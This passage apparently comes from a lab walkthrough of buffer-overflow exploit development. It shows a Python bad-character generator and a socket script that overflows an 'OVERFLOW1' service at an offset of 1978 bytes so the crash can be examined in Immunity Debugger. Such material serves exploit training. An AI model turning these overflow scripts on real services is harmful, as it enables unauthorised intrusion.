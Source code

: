 ![](cybersecurity/images/Pasted%2520image%252020250529123802.png)


As seen, it got saved as `bytearray.bin`, we now need to create a bad char string on another python script:

```python
for x in range(1, 256):
    print("\\x{:02x}".format(x), end='')
print()
```

We can use:

```
python3 badchar.py > string.txt
```

Now, we need to copy that and remove the block that reads `pattern.txt`, it will go like this:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```


Now, restart the file again and use the script, the server will crash again and we need to look in the right side of immunity for the `ESP address`:
